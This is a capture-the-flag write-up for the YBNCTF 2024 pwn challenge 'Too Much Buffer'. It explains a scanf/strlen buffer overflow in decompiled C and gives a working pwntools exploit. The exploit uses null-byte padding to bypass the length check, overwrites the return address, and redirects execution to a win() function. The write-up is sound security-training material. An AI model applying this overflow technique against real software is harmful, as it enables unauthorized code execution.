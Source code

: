 ```yaml
---
title: Too Much Buffer
date: 2024-11-30
tags: 
- pwn
- author-fs
- Buffer Overflow
categories: YBNCTF 2024
---
```


by {% person fs %}

This challenge revolves a vulnerability around strlen() C and involves a buffer overflow.

```c

undefined8 main(void)

{
  int iVar1;
  undefined8 uStack_90;
  char input [104];
  size_t len;
  char *local_18;
  ulong count;
  
  uStack_90 = 0x40126f;
  ignore_me_innit_buffering();
  uStack_90 = 0x401279;
  puts(err);
  uStack_90 = 0x401283;
  puts("I eat bits with mushrooms, bits with muffins, and even bits with bits!");
  uStack_90 = 0x401299;
  scanf(%s,input);//vulnerable to buffer overflow since %s doesnt put any length restriction on input. use %[size]s to be more secure
  uStack_90 = 0x4012a5;
  len = strlen(input);//vulnerable as strlen() only counts up to null-byte
  for (count = 0; count < len; count = count + 1) {
    uStack_90 = 0x4012cb;
    iVar1 = valid_characters((int)input[count]);//checks if input has 'yesbutnoYESBUTNO'
    if (iVar1 == -1) goto LAB_00401324;
  }
  if (len < 100) {//checking if length of input exceeds 100
    local_18 = input;
    if (4 < len) {
      local_18 = input + (len - 4);
    }
    uStack_90 = 0x40131e;
    printf("Most yummy part(also the last part): %s\n",local_18);
    return 0;
  }
LAB_00401324:
  uStack_90 = 0x40132e;
  puts("ewwwwwwwwwwwwwwwwwww what\'d you put in that????");
                    /* WARNING: Subroutine does not return */
  uStack_90 = 0x401338;
  exit(0);
}

```

We also see there's a win() function that cats out flag on remote server. Given that strlen() only counts up to null byte and scanf() is vulnerable to buffer overflow and we need to contain the string 'yesbutnoYESBUTNO' inside our input, we can construct our payload as such. Payload example: (b'yesbutnoYESBUTNO'+b'\x00\x00\x00\x00')\*5 (this just gets our payload to 100 length)+b'A'*padding to rbp+b"A"\*8 (overwrite rbp) + ret gadget (stack alignment issue)+address of win()(get rip register to point to win() function address),

Hence, we can write our payload as such,

```py
from pwn import *

p=process("./buffer_monster")
#p=remote("tcp.ybn.sg", "28433")
elf=ELF("./buffer_monster")
#gdb.attach(p)

cyclic_payload=cyclic_find("haaaiaaa")#offset to rbp register
print(cyclic_payload)
payload=b"yesbutnoYESBUTNO\x00\x00\x00\x00"*5+cyclic(cyclic_payload)+b"A"*8+p64(0x0000000000401016)+p64(elf.sym['win'])
p.sendline(payload)
p.interactive()
```

We get flag.txt running this.

Make more stack pwn in finals please.
